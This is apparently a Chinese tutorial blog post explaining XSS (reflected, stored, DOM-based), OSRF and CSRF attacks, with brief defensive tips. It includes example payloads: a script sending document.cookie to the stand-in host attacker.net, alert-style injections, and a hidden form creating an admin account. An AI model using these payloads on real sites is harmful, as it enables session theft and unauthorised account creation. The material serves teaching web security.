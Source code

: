 ```yaml
---
title: XSS 和 CSRF 两种跨站攻击
layout: post
comments: true
date: 2016-11-26 19:17:15
tags: [Web安全]
categories: Web安全
description: XSS CSRF 两种 跨站 攻击
photos:
- http://ww4.sinaimg.cn/mw690/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
- http://ww4.sinaimg.cn/small/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
---
```

差不多刚开始接触前端的时候，经常能看到一些早几年入行大牛们的简历，几乎所有人都会在简历中带上这么一句话：具备基本的 Web 安全知识（XSS / CSRF）。显然这已经成为前端人员的必备知识。

<!--more-->

非常怀念那个 SQL 注入还没有被普遍认可的年代，虽然这么多年过去了，SQL 注入并没有消失，仍然是最危险的漏洞。关于 SQL 注入的原理，可以看我之前写的文章[SQL 注入详解](http://yuren.space/blog/2016/10/01/SQL%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3/)。今天是主题是 Web 安全的另外两大杀手，XSS 和 CSRF。

## XSS 的分类

XSS 漏洞有多种形式，分为三类，反射型、保存型和基于 DOM 的 XSS 攻击。这些漏洞的基本原理都是一样的，但是确定和利用漏洞方面又存在很大的差异，下面将对这三种漏洞详细介绍。

### 反射型 XSS 漏洞

前面废话一大堆，还是没有说 XSS 漏洞到底是什么，别急，慢慢看。如果一个 Web 程序可以动态的显示用户的错误消息，就有可能会产生反射型漏洞。

用户浏览网页时发送错误，向服务器请求 URL，比如`www.xxx.com/error.php?message=sorry,an error occurred`，然后服务器根据得到的 message，**不进行过滤**，复制到错误页面的模板中：`<p>sorry,an error occurred</p>`，返回给用户。

这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。`www.xxx.com/error.php?message=<script>alert(1)</script>`，当用户打开错误页面时，就会出现`<p><script>alert(1)</script></p>`，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下

```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。下图是一个简易的流程图：

![](/content/images/2016/11/t5.png)

由于浏览器的同源策略，直接向 attacker.net 发送 document.cookie 是无法获得 www.xxx.com 的 cookie，因为浏览器会对不同源（域）的内容进行隔离，这就是该漏洞被称为跨站脚本的原因。

### 保存型 XSS 漏洞

保存型跨站脚本也是比较常见的漏洞，脚本通常保存在后端数据库中，不经过滤就存储并且显示给用户，此时就会出现这种漏洞。

与反射型的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者想服务器提出访问含有恶意代码数据的页面，恶意代码执行。

与反射型不同的是，保存型不需要一个专门设计的 URL 来接收 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过，也可用保存型的漏洞来获取用户 cookie 进行劫持。

还有一个不同点，反射型的漏洞，必须要等受害者登陆后，才能保证 cookie 的正常获得，而保存型的漏洞，受害者访问页面，说明已经登陆了。

举一个例子，比如某社交论坛存在保存型的 XSS 漏洞，黑客将自己的个人信息一栏修改成恶意的 JS 代码，改代码实现两个功能，首先受害者加自己为好友，其次修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行该恶意脚本，于是可怕的“蠕虫”就开始了。

### 基于 DOM 的 XSS 漏洞

前两种 XSS 漏洞，都表现一种特殊的模式，就是应用程序提取数据并返回给受害者，而基于 DOM 的 XSS 不具有这种特点，攻击者是借助于 JavaScript 来展开攻击的。

1. 用户请求一个经过专门设计的 URL，由攻击者提交，包括嵌入式的 JavaScript；
2. 服务器的响应不包含任何攻击者的脚本，同时服务器也不会对 URL 进行检测；
3. 当用户浏览这个响应时，脚本得以处理。

与反射型漏洞类似，都是对 URL 进行特殊构造，不同的是，反射型是由服务器处理 URL，而 DOM 型是由 JavaScript 脚本来处理。还以刚才那个反射型为例子，假设应用程序返回的错误页面包含以下 JS 脚本：

```
<script>
  var url = document.location;
  var message = /message=(.+)$/.exec(url)[1];
  document.wirte(message);
  //或者
  document.getElementById("show").innerHTML = message;
</script>
```

同样给受害者发送这样的链接 `www.xxx.com/error.php?message=<script>alert(1)</script>`，也可以开展 XSS 漏洞攻击。基于 DOM 的漏洞不局限与 URL，还可以是页面某个 dom 的内容，这和存储型的 XSS 又联系到一起。

## 请求伪造

在 XSS 跨站攻击中，攻击者需要获得受害者的会话令牌，请求伪造也与会话劫持相关，但是攻击者不需要知道受害者的会话令牌，就能够行驶“受害者”的权利。请求伪造有两种，本站点请求伪造（OSRF）和跨站点请求伪造（CSRF），

### OSRF

OSRF 是一种利用保存型 XSS 漏洞的攻击载荷，如果在得知应用程序对 XSS 漏洞过滤的情况下，可以尝试 OSRF 攻击。

比如这是一个某站点 POST 请求，该站点过滤 XSS 攻击，

```
POST /submit.php
Host: xxx.com
Content-Length: ..

type=question&name=get&message=mes
```

然后该信息将会被现实到如下的 HTML 中：

```
<tr>
  <td><img src="/images/question.jpg"></td>
  <td>get</td>
  <td>mes</td>
</tr>
```

这个漏洞很容易找到，直接用 type 的值来表示 jpg 的name，然后我们构造 type 的值等于下面的内容，

```
../admin/newuser.php?username=test&password=123&role=admin#
```

使用上面的介绍，相对应的构造一个表单提交，创建一个管理员权限的用户，普通用户点击是不会成功的，因为权限不够，但是如果是管理员点击该链接的话，就会创建一个秘密账户，所以，即时对 URL 禁用了 JavaScript 脚本，还是可以通过 OSRF 攻击成功。

在攻击字符串的最后使用了 # ，是为了对 .jpg 进行屏蔽，也可以添加 & 组成另一个参数。

### CSRF

跨站点请求伪造才是跨站伪造的重点内容，攻击者只需要创建一个看似无害的网站，致使受害者的浏览器直接向易受攻击的服务器提交一个请求，执行恶意代码。

仍然需要考虑同源策略，仍然以管理员创建新用户为例，

```
POST /newUser.php HTTP/1.1
Host: xxx.com
Cookie: SessionId=...
Content-Length: ..

name=ro&userrole=admin&password=123456&confirmpassword=123456
```

黑客构造的网站会提交一个 form 表单：

```
<<!DOCTYPE html>
<html><body>
  <form action="http://xxx.com/newUser.php" method="POST">
    <input type="hidden" name="name" value="ro">
    <input type="hidden" name="userrole" value="admin">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="confirmpassword" value="123456">
  </form>
</body></html>
```

当管理员已经登陆的情况下，访问这个恶意网站的时候，就会提交这段脚本，管理员都不知情。因为管理员已经登陆，无需考虑 Cookie 的问题，一个简单的 CSRF 如此。

## 总结

其实攻击很简单，只要的还是如何防御，比如

1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"；
2. Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；
3. 严格控制 URL 访问，对于一些挂马的 ip 和域名，强制无法访问；
4. 等等

共勉。

## 参考

>[跨站脚本攻击介绍](http://blog.csdn.net/yefan2222/article/details/7091863)
>[那些年我们一起学 XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/7.html)
>[总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
>书籍：《黑客攻防技术宝典 Web实战篇》